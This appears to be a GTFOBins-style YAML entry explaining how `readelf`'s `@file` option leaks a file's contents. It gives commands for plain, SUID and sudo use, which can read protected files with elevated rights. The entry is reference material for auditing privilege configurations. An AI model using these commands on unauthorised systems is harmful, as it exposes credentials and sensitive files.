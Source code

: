 ```yaml
---
description: |
  Each line is corrupted by a prefix string and wrapped inside single quotes. Also consider that lines are actually parsed as `readelf` options thus some file contents may lead to unexpected results.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        readelf -a @$LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./readelf -a @$LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo readelf -a @$LFILE
---
```


